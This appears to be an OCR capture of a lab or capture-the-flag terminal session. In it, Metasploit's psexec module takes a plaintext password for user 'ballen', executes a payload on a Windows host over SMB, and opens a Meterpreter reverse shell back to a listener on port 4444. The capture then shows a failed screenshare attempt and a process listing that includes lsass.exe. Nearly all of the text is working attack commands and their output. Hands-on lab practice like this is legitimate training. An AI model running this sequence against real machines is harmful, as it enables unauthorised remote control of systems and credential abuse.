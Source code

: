 ```
SMBPass => Password1
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.10.243.229:4444 
[*] 10.10.187.150:445 - Connecting to the server...
[*] 10.10.187.150:445 - Authenticating to 10.10.187.150:445 as user 'ballen'...
[*] 10.10.187.150:445 - Selecting PowerShell target
[*] 10.10.187.150:445 - Executing the payload...
[+] 10.10.187.150:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 10.10.187.150
[*] Meterpreter session 1 opened (10.10.243.229:4444 -> 10.10.187.150:51632) at 2024-01-24 02:25:27 +0000

meterpreter > screenshare
[*] Preparing player...
[*] Opening player at: /root/pAeXAnRa.html
[*] Streaming...
[-] Error running command screenshare: Rex::RuntimeError Current session was spawned by a service on Windows 8+. No desktops are available to screenshot.
meterpreter > [GFX1-]: Unrecognized feature ACCELERATED_CANVAS2D
[2024-01-24T02:26:15Z ERROR viaduct::backend::ffi] Missing HTTP status
[2024-01-24T02:26:15Z ERROR viaduct::backend::ffi] Missing HTTP status

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User               Path
 ---   ----  ----         ----  -------  ----               ----
 0     0     [System Pro
             cess]
 4     0     System       x64   0
 68    4     Registry     x64   0
 396   4     smss.exe     x64   0
 548   536   csrss.exe    x64   0
 620   612   csrss.exe    x64   1
 672   536   wininit.exe  x64   0
 688   612   winlogon.ex  x64   1        NT AUTHORITY\SYST  C:\Windows\System3
             e                           EM                 2\winlogon.exe
 752   672   services.ex  x64   0
             e
 764   672   lsass.exe    x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\lsass.exe
 812   688   dwm.exe      x64   1        Window Manager\DW  C:\Windows\System3
                                         M-1                2\dwm.exe
 888   752   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 904   752   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 956   752   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 992   752   svchost.exe  x64   0        NT AUTHORITY\NETW  C:\Windows\System3
                                         ORK SERVICE        2\svchost.exe
 1068  752   svchost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\System3
                                         EM                 2\svchost.exe
 1188  752   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1200  752   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
 1208  752   svchost.exe  x64   0        NT AUTHORITY\LOCA  C:\Windows\System3
                                         L SERVICE          2\svchost.exe
```